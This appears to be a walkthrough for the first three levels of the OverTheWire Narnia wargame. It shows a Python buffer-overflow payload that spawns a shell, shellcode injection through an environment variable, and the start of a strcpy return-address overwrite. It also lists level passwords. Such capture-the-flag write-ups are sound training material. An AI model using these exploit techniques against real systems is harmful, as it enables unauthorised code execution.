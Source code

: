 # Walkthrough for the Narnia of OTW

## Introduction:
Try it for yourself before you look for help ;)

## Preparations
I added the server ``narnia.labs.overthewire.org'' and port 2226
into the ssh config file:

    Host narnia.labs.overthewire.org
    port 2226

## Level 0:

Username: narnia0
Passwort: [ narnia0 ]

The file ist stored in the directory /narnia, the application
is named narnia0, the source code is given in the file narnia0.c.

    cd /narnia

First of all we run the application once and take a look, what it does.

    ./narnia0

After prompting us with the target to change (aka. ``correct'') the value
from 0x41414141 -> 0xdeadbeef we are given the chance to enter something.
Entering ``something'' results in a hint, that this was not correct

    ./narnia0
    something

A single look into the source shows the path. The memory layout and use
of scanf cries for a buffer overflow. Now we just have to generate the payload
and ship it to the program.

Python can be used to create the payload:

    python -c "print(20*'a' + chr(0xef) + chr(0xbe) + chr(0xad) + chr(0xde))" | ./narnia0

which can be piped to the file. Now we are not yelled at, but nothing more is
happening. This is due to line 32. The opened shell is closed directly. This
can be fixed by piping multiple commands into the application:

    (python -c "print(20*'a' + chr(0xef) + chr(0xbe) + chr(0xad) + chr(0xde))"; cat)
        | ./narnia0

With the command ``whoami'' we can check, if everything worked:
    whoami
    -> narnia1

Fine, seems like it worked! Now we cat the password for the next level

    cat /etc/narnia_pass/narnia1

### Lessons learned:

Use ``cat'' to pass the input into the opened shell. This will be used in
many more cases.


## Level 1:

Username: narnia1
Passwort: [ efeidiedae ]

A quick peek in the source code shows, that the env var EGG has to be set.
Setting the var to commands like **ls** or **/bin/sh** results in a segfault.
This cries for runnable shellcode to be used.  We will use a shells-script from
a page liek shell-storm. At this moment i'm not capable of writing my own
shell-script from scratch without destroying everything.

Since we want a simple execve to bash i used the following script
    http://shell-storm.org/shellcode/files/shellcode-606.php
save the shellcode without the quotation marks and linebreaks in
a file **shellcode.comp**, upload it via scp and just pass it to EGG via echo:
    export EGG=$(echo -e $(cat shellcode.comp))

Now i can run ./narnia1, get the credentials for narnia2  and be happy

## Level 2:

Username: narnia1
Passwort: [ nairiepecu ]

The vulnerability is hidden in the strcpy and the size of 128 for the target
buffer. By copying more than 128 bytes the return adress can be modified

Using gdb and the python script **findLocation.py** finds the position of the 
return adress.
